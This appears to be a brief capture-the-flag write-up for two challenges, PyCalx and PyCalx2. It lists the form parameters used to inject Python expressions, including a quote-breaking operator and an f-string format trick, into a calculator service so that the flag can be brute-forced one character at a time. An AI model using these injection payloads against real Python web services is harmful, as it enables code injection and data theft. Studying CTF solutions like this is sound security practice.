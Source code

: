 <h1>PyCalx</h1>
<p>Bruteforce the <b><i>source</i></b> param.</p>
<p>value1=True</p>
<p>op=+'</p>
<p>value2= if source in FLAG else None#</p>
<p>source=MeePwn....</p>

<h1>PyCalx2</h1>
<p>With Internet connection I found this: https://cito.github.io/blog/f-strings/</p>
<p>Then the payload have some changes and I still do bruteforce:</p>
<p>value1=True</p>
<p>op=+f</p>
<p>value2={101 if source in FLAG else 102:c}</p>
<p>source=MeePwn....</p>
